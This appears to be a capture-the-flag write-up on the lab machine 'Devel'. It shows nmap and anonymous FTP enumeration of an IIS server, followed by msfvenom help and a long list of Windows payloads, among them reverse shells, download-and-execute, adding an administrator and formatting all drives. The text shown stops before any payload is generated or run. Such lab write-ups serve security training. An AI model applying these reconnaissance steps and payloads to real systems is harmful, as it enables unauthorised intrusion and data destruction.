




#### Devel

- [Attacker Info]()
- [Nmap Scan]()
- [HTTP Enumeration]()
- [FTP Enumeration]()
- [Reverse Shell]()
- [Msfconsole]()

###### Attacker Info

```sh
root@kali:~/devel# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.19  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 962  bytes 840898 (821.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 448  bytes 41136 (40.1 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 26  bytes 1426 (1.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 26  bytes 1426 (1.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.8  netmask 255.255.254.0  destination 10.10.14.8
        inet6 fe80::c643:2e07:b80:7cfe  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1006  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 7  bytes 336 (336.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/devel#
```

###### Nmap Scan

```sh
root@kali:~/devel# nmap -sV -sC -oA devel.nmap 10.10.10.5

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-27 09:19 EST
Nmap scan report for 10.10.10.5
Host is up (0.26s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 01-30-18  01:16AM                 2816 cmd.aspx
| 01-30-18  01:42AM                 2809 cmod.aspx
| 01-30-18  12:16AM                 2757 exploit.aspx
| 03-17-17  04:37PM                  689 iisstart.htm
| 01-29-18  11:21PM                36528 nc.exe
| 01-29-18  11:19PM                43808 nc64.exe
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.55 seconds
root@kali:~/devel#
```

###### HTTP Enumeration

```
http://10.10.10.5/
http://10.10.10.5/iisstart.htm
http://10.10.10.5/welcome.png
```






###### FTP Enumeration

```sh
root@kali:~/devel# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp>
```



[``How to obtain versions of Internet Information Server (IIS)``](https://support.microsoft.com/en-us/help/224609/how-to-obtain-versions-of-internet-information-server-iis)



###### Reverse Shell

```sh
root@kali:~/devel# msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>

Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload
    -f, --format        <format>     Output format (use --help-formats for a list)
        --help-formats               List available formats
    -e, --encoder       <encoder>    The encoder to use
    -a, --arch          <arch>       The architecture to use
        --platform      <platform>   The platform of the payload
        --help-platforms             List available platforms
    -s, --space         <length>     The maximum size of the resulting payload
        --encoder-space <length>     The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars     <list>       The list of characters to avoid example: '\x00\xff'
    -i, --iterations    <count>      The number of times to encode the payload
    -c, --add-code      <path>       Specify an additional win32 shellcode file to include
    -x, --template      <path>       Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --out           <path>       Save the payload
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message
root@kali:~/devel#
```

```sh
root@kali:~/devel# msfvenom -l | grep windows
    cmd/windows/adduser                                 Create a new user and add them to local administration group. Note: The specified password is checked for common complexity requirements to prevent the target machine rejecting the user for failing to meet policy requirements. Complexity check: 8-14 chars (1 UPPER, 1 lower, 1 digit/special)
    cmd/windows/bind_lua                                Listen for a connection and spawn a command shell via Lua
    cmd/windows/bind_perl                               Listen for a connection and spawn a command shell via perl (persistent)
    cmd/windows/bind_perl_ipv6                          Listen for a connection and spawn a command shell via perl (persistent)
    cmd/windows/bind_ruby                               Continually listen for a connection and spawn a command shell via Ruby
    cmd/windows/download_eval_vbs                       Downloads a file from an HTTP(S) URL and executes it as a vbs script. Use it to stage a vbs encoded payload from a short command line.
    cmd/windows/download_exec_vbs                       Download an EXE from an HTTP(S) URL and execute it
    cmd/windows/generic                                 Executes the supplied command
    cmd/windows/powershell_bind_tcp                     Interacts with a powershell session on an established socket connection
    cmd/windows/powershell_reverse_tcp                  Interacts with a powershell session on an established socket connection
    cmd/windows/reverse_lua                             Creates an interactive shell via Lua
    cmd/windows/reverse_perl                            Creates an interactive shell via perl
    cmd/windows/reverse_powershell                      Connect back and create a command shell via Powershell
    cmd/windows/reverse_ruby                            Connect back and create a command shell via Ruby
    windows/adduser                                     Create a new user and add them to local administration group. Note: The specified password is checked for common complexity requirements to prevent the target machine rejecting the user for failing to meet policy requirements. Complexity check: 8-14 chars (1 UPPER, 1 lower, 1 digit/special)
    windows/dllinject/bind_hidden_ipknock_tcp           Inject a DLL via a reflective loader. Listen for a connection. First, the port will need to be knocked from the IP defined in KHOST. This IP will work as an authentication method (you can spoof it with tools like hping). After that you could get your shellcode from any IP. The socket will appear as "closed," thus helping to hide the shellcode
    windows/dllinject/bind_hidden_tcp                   Inject a DLL via a reflective loader. Listen for a connection from a hidden port and spawn a command shell to the allowed host.
    windows/dllinject/bind_ipv6_tcp                     Inject a DLL via a reflective loader. Listen for an IPv6 connection (Windows x86)
    windows/dllinject/bind_ipv6_tcp_uuid                Inject a DLL via a reflective loader. Listen for an IPv6 connection with UUID Support (Windows x86)
    windows/dllinject/bind_nonx_tcp                     Inject a DLL via a reflective loader. Listen for a connection (No NX)
    windows/dllinject/bind_tcp                          Inject a DLL via a reflective loader. Listen for a connection (Windows x86)
    windows/dllinject/bind_tcp_rc4                      Inject a DLL via a reflective loader. Listen for a connection
    windows/dllinject/bind_tcp_uuid                     Inject a DLL via a reflective loader. Listen for a connection with UUID Support (Windows x86)
    windows/dllinject/find_tag                          Inject a DLL via a reflective loader. Use an established connection
    windows/dllinject/reverse_hop_http                  Inject a DLL via a reflective loader. Tunnel communication over an HTTP or HTTPS hop point. Note that you must first upload data/hop/hop.php to the PHP server you wish to use as a hop.
    windows/dllinject/reverse_http                      Inject a DLL via a reflective loader. Tunnel communication over HTTP (Windows wininet)
    windows/dllinject/reverse_http_proxy_pstore         Inject a DLL via a reflective loader. Tunnel communication over HTTP
    windows/dllinject/reverse_ipv6_tcp                  Inject a DLL via a reflective loader. Connect back to the attacker over IPv6
    windows/dllinject/reverse_nonx_tcp                  Inject a DLL via a reflective loader. Connect back to the attacker (No NX)
    windows/dllinject/reverse_ord_tcp                   Inject a DLL via a reflective loader. Connect back to the attacker
    windows/dllinject/reverse_tcp                       Inject a DLL via a reflective loader. Connect back to the attacker
    windows/dllinject/reverse_tcp_allports              Inject a DLL via a reflective loader. Try to connect back to the attacker, on all possible ports (1-65535, slowly)
    windows/dllinject/reverse_tcp_dns                   Inject a DLL via a reflective loader. Connect back to the attacker
    windows/dllinject/reverse_tcp_rc4                   Inject a DLL via a reflective loader. Connect back to the attacker
    windows/dllinject/reverse_tcp_rc4_dns               Inject a DLL via a reflective loader. Connect back to the attacker
    windows/dllinject/reverse_tcp_uuid                  Inject a DLL via a reflective loader. Connect back to the attacker with UUID Support
    windows/dllinject/reverse_winhttp                   Inject a DLL via a reflective loader. Tunnel communication over HTTP (Windows winhttp)
    windows/dns_txt_query_exec                          Performs a TXT query against a series of DNS record(s) and executes the returned payload
    windows/download_exec                               Download an EXE from an HTTP(S)/FTP URL and execute it
    windows/exec                                        Execute an arbitrary command
    windows/format_all_drives                           This payload formats all mounted disks in Windows (aka ShellcodeOfDeath). After formatting, this payload sets the volume label to the string specified in the VOLUMELABEL option. If the code is unable to access a drive for any reason, it skips the drive and proceeds to the next volume.
    windows/loadlibrary                                 Load an arbitrary library path
    windows/messagebox                                  Spawns a dialog via MessageBox using a customizable title, text & icon
    windows/meterpreter/bind_hidden_ipknock_tcp         Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Listen for a connection. First, the port will need to be knocked from the IP defined in KHOST. This IP will work as an authentication method (you can spoof it with tools like hping). After that you could get your shellcode from any IP. The socket will appear as "closed," thus helping to hide the shellcode
    windows/meterpreter/bind_hidden_tcp                 Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Listen for a connection from a hidden port and spawn a command shell to the allowed host.
    windows/meterpreter/bind_ipv6_tcp                   Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Listen for an IPv6 connection (Windows x86)
    windows/meterpreter/bind_ipv6_tcp_uuid              Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Listen for an IPv6 connection with UUID Support (Windows x86)
    windows/meterpreter/bind_nonx_tcp                   Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Listen for a connection (No NX)
    windows/meterpreter/bind_tcp                        Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Listen for a connection (Windows x86)
    windows/meterpreter/bind_tcp_rc4                    Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Listen for a connection
    windows/meterpreter/bind_tcp_uuid                   Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Listen for a connection with UUID Support (Windows x86)
    windows/meterpreter/find_tag                        Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Use an established connection
    windows/meterpreter/reverse_hop_http                Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Tunnel communication over an HTTP or HTTPS hop point. Note that you must first upload data/hop/hop.php to the PHP server you wish to use as a hop.
    windows/meterpreter/reverse_http                    Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Tunnel communication over HTTP (Windows wininet)
    windows/meterpreter/reverse_http_proxy_pstore       Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Tunnel communication over HTTP
    windows/meterpreter/reverse_https                   Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Tunnel communication over HTTPS (Windows wininet)
    windows/meterpreter/reverse_https_proxy             Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Tunnel communication over HTTP using SSL with custom proxy support
    windows/meterpreter/reverse_ipv6_tcp                Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Connect back to the attacker over IPv6
    windows/meterpreter/reverse_named_pipe              Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Connect back to the attacker via a named pipe pivot
    windows/meterpreter/reverse_nonx_tcp                Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Connect back to the attacker (No NX)
    windows/meterpreter/reverse_ord_tcp                 Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Connect back to the attacker
    windows/meterpreter/reverse_tcp                     Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Connect back to the attacker
    windows/meterpreter/reverse_tcp_allports            Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Try to connect back to the attacker, on all possible ports (1-65535, slowly)
    windows/meterpreter/reverse_tcp_dns                 Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Connect back to the attacker
    windows/meterpreter/reverse_tcp_rc4                 Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Connect back to the attacker
    windows/meterpreter/reverse_tcp_rc4_dns             Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Connect back to the attacker
    windows/meterpreter/reverse_tcp_uuid                Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Connect back to the attacker with UUID Support
    windows/meterpreter/reverse_winhttp                 Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Tunnel communication over HTTP (Windows winhttp)
    windows/meterpreter/reverse_winhttps                Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Tunnel communication over HTTPS (Windows winhttp)
    windows/meterpreter_bind_tcp                        Connect to victim and spawn a Meterpreter shell
    windows/meterpreter_reverse_http                    Connect back to attacker and spawn a Meterpreter shell
    windows/meterpreter_reverse_https                   Connect back to attacker and spawn a Meterpreter shell
    windows/meterpreter_reverse_ipv6_tcp                Connect back to attacker and spawn a Meterpreter shell
    windows/meterpreter_reverse_tcp                     Connect back to attacker and spawn a Meterpreter shell
    windows/metsvc_bind_tcp                             Stub payload for interacting with a Meterpreter Service
    windows/metsvc_reverse_tcp                          Stub payload for interacting with a Meterpreter Service
    windows/patchupdllinject/bind_hidden_ipknock_tcp    Inject a custom DLL into the exploited process. Listen for a connection. First, the port will need to be knocked from the IP defined in KHOST. This IP will work as an authentication method (you can spoof it with tools like hping). After that you could get your shellcode from any IP. The socket will appear as "closed," thus helping to hide the shellcode
    windows/patchupdllinject/bind_hidden_tcp            Inject a custom DLL into the exploited process. Listen for a connection from a hidden port and spawn a command shell to the allowed host.
    windows/patchupdllinject/bind_ipv6_tcp              Inject a custom DLL into the exploited process. Listen for an IPv6 connection (Windows x86)
    windows/patchupdllinject/bind_ipv6_tcp_uuid         Inject a custom DLL into the exploited process. Listen for an IPv6 connection with UUID Support (Windows x86)
    windows/patchupdllinject/bind_nonx_tcp              Inject a custom DLL into the exploited process. Listen for a connection (No NX)
    windows/patchupdllinject/bind_tcp                   Inject a custom DLL into the exploited process. Listen for a connection (Windows x86)
    windows/patchupdllinject/bind_tcp_rc4               Inject a custom DLL into the exploited process. Listen for a connection
    windows/patchupdllinject/bind_tcp_uuid              Inject a custom DLL into the exploited process. Listen for a connection with UUID Support (Windows x86)
    windows/patchupdllinject/find_tag                   Inject a custom DLL into the exploited process. Use an established connection
    windows/patchupdllinject/reverse_ipv6_tcp           Inject a custom DLL into the exploited process. Connect back to the attacker over IPv6
    windows/patchupdllinject/reverse_nonx_tcp           Inject a custom DLL into the exploited process. Connect back to the attacker (No NX)
    windows/patchupdllinject/reverse_ord_tcp            Inject a custom DLL into the exploited process. Connect back to the attacker
    windows/patchupdllinject/reverse_tcp                Inject a custom DLL into the exploited process. Connect back to the attacker
    windows/patchupdllinject/reverse_tcp_allports       Inject a custom DLL into the exploited process. Try to connect back to the attacker, on all possible ports (1-65535, slowly)
    windows/patchupdllinject/reverse_tcp_dns            Inject a custom DLL into the exploited process. Connect back to the attacker
    windows/patchupdllinject/reverse_tcp_rc4            Inject a custom DLL into the exploited process. Connect back to the attacker
    windows/patchupdllinject/reverse_tcp_rc4_dns        Inject a custom DLL into the exploited process. Connect back to the attacker
    windows/patchupdllinject/reverse_tcp_uuid           Inject a custom DLL into the exploited process. Connect back to the attacker with UUID Support
    windows/patchupmeterpreter/bind_hidden_ipknock_tcp  Inject the meterpreter server DLL (staged). Listen for a connection. First, the port will need to be knocked from the IP defined in KHOST. This IP will work as an authentication method (you can spoof it with tools like hping). After that you could get your shellcode from any IP. The socket will appear as "closed," thus helping to hide the shellcode
    windows/patchupmeterpreter/bind_hidden_tcp          Inject the meterpreter server DLL (staged). Listen for a connection from a hidden port and spawn a command shell to the allowed host.
    windows/patchupmeterpreter/bind_ipv6_tcp            Inject the meterpreter server DLL (staged). Listen for an IPv6 connection (Windows x86)
    windows/patchupmeterpreter/bind_ipv6_tcp_uuid       Inject the meterpreter server DLL (staged). Listen for an IPv6 connection with UUID Support (Windows x86)
    windows/patchupmeterpreter/bind_nonx_tcp            Inject the meterpreter server DLL (staged). Listen for a connection (No NX)
    windows/patchupmeterpreter/bind_tcp                 Inject the meterpreter server DLL (staged). Listen for a connection (Windows x86)
    windows/patchupmeterpreter/bind_tcp_rc4             Inject the meterpreter server DLL (staged). Listen for a connection
    windows/patchupmeterpreter/bind_tcp_uuid            Inject the meterpreter server DLL (staged). Listen for a connection with UUID Support (Windows x86)
    windows/patchupmeterpreter/find_tag                 Inject the meterpreter server DLL (staged). Use an established connection
    windows/patchupmeterpreter/reverse_ipv6_tcp         Inject the meterpreter server DLL (staged). Connect back to the attacker over IPv6
    windows/patchupmeterpreter/reverse_nonx_tcp         Inject the meterpreter server DLL (staged). Connect back to the attacker (No NX)
    windows/patchupmeterpreter/reverse_ord_tcp          Inject the meterpreter server DLL (staged). Connect back to the attacker
    windows/patchupmeterpreter/reverse_tcp              Inject the meterpreter server DLL (staged). Connect back to the attacker
    windows/patchupmeterpreter/reverse_tcp_allports     Inject the meterpreter server DLL (staged). Try to connect back to the attacker, on all possible ports (1-65535, slowly)
    windows/patchupmeterpreter/reverse_tcp_dns          Inject the meterpreter server DLL (staged). Connect back to the attacker
    windows/patchupmeterpreter/reverse_tcp_rc4          Inject the meterpreter server DLL (staged). Connect back to the attacker
    windows/patchupmeterpreter/reverse_tcp_rc4_dns      Inject the meterpreter server DLL (staged). Connect back to the attacker
    windows/patchupmeterpreter/reverse_tcp_uuid         Inject the meterpreter server DLL (staged). Connect back to the attacker with UUID Support
    windows/powershell_bind_tcp                         Listen for a connection and spawn an interactive powershell session
    windows/powershell_reverse_tcp                      Listen for a connection and spawn an interactive powershell session
    windows/shell/bind_hidden_ipknock_tcp               Spawn a piped command shell (staged). Listen for a connection. First, the port will need to be knocked from the IP defined in KHOST. This IP will work as an authentication method (you can spoof it with tools like hping). After that you could get your shellcode from any IP. The socket will appear as "closed," thus helping to hide the shellcode
    windows/shell/bind_hidden_tcp                       Spawn a piped command shell (staged). Listen for a connection from a hidden port and spawn a command shell to the allowed host.
    windows/shell/bind_ipv6_tcp                         Spawn a piped command shell (staged). Listen for an IPv6 connection (Windows x86)
    windows/shell/bind_ipv6_tcp_uuid                    Spawn a piped command shell (staged). Listen for an IPv6 connection with UUID Support (Windows x86)
    windows/shell/bind_nonx_tcp                         Spawn a piped command shell (staged). Listen for a connection (No NX)
    windows/shell/bind_tcp                              Spawn a piped command shell (staged). Listen for a connection (Windows x86)
    windows/shell/bind_tcp_rc4                          Spawn a piped command shell (staged). Listen for a connection
    windows/shell/bind_tcp_uuid                         Spawn a piped command shell (staged). Listen for a connection with UUID Support (Windows x86)
    windows/shell/find_tag                              Spawn a piped command shell (staged). Use an established connection
    windows/shell/reverse_ipv6_tcp                      Spawn a piped command shell (staged). Connect back to the attacker over IPv6
    windows/shell/reverse_nonx_tcp                      Spawn a piped command shell (staged). Connect back to the attacker (No NX)
    windows/shell/reverse_ord_tcp                       Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp                           Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_allports                  Spawn a piped command shell (staged). Try to connect back to the attacker, on all possible ports (1-65535, slowly)
    windows/shell/reverse_tcp_dns                       Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_rc4                       Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_rc4_dns                   Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_uuid                      Spawn a piped command shell (staged). Connect back to the attacker with UUID Support
    windows/shell_bind_tcp                              Listen for a connection and spawn a command shell
    windows/shell_bind_tcp_xpfw                         Disable the Windows ICF, then listen for a connection and spawn a command shell
    windows/shell_hidden_bind_tcp                       Listen for a connection from certain IP and spawn a command shell. The shellcode will reply with a RST packet if the connections is not coming from the IP defined in AHOST. This way the port will appear as "closed" helping us to hide the shellcode.
    windows/shell_reverse_tcp                           Connect back to attacker and spawn a command shell
    windows/speak_pwned                                 Causes the target to say "You Got Pwned" via the Windows Speech API
    windows/upexec/bind_hidden_ipknock_tcp              Uploads an executable and runs it (staged). Listen for a connection. First, the port will need to be knocked from the IP defined in KHOST. This IP will work as an authentication method (you can spoof it with tools like hping). After that you could get your shellcode from any IP. The socket will appear as "closed," thus helping to hide the shellcode
    windows/upexec/bind_hidden_tcp                      Uploads an executable and runs it (staged). Listen for a connection from a hidden port and spawn a command shell to the allowed host.
    windows/upexec/bind_ipv6_tcp                        Uploads an executable and runs it (staged). Listen for an IPv6 connection (Windows x86)
    windows/upexec/bind_ipv6_tcp_uuid                   Uploads an executable and runs it (staged). Listen for an IPv6 connection with UUID Support (Windows x86)
    windows/upexec/bind_nonx_tcp                        Uploads an executable and runs it (staged). Listen for a connection (No NX)
    windows/upexec/bind_tcp                             Uploads an executable and runs it (staged). Listen for a connection (Windows x86)
    windows/upexec/bind_tcp_rc4                         Uploads an executable and runs it (staged). Listen for a connection
    windows/upexec/bind_tcp_uuid                        Uploads an executable and runs it (staged). Listen for a connection with UUID Support (Windows x86)
    windows/upexec/find_tag                             Uploads an executable and runs it (staged). Use an established connection
    windows/upexec/reverse_ipv6_tcp                     Uploads an executable and runs it (staged). Connect back to the attacker over IPv6
    windows/upexec/reverse_nonx_tcp                     Uploads an executable and runs it (staged). Connect back to the attacker (No NX)
    windows/upexec/reverse_ord_tcp                      Uploads an executable and runs it (staged). Connect back to the attacker
    windows/upexec/reverse_tcp                          Uploads an executable and runs it (staged). Connect back to the attacker
    windows/upexec/reverse_tcp_allports                 Uploads an executable and runs it (staged). Try to connect back to the attacker, on all possible ports (1-65535, slowly)
    windows/upexec/reverse_tcp_dns                      Uploads an executable and runs it (staged). Connect back to the attacker
    windows/upexec/reverse_tcp_rc4                      Uploads an executable and runs it (staged). Connect back to the attacker
    windows/upexec/reverse_tcp_rc4_dns                  Uploads an executable and runs it (staged). Connect back to the attacker
    windows/upexec/reverse_tcp_uuid                     Uploads an executable and runs it (staged). Connect back to the attacker with UUID Support
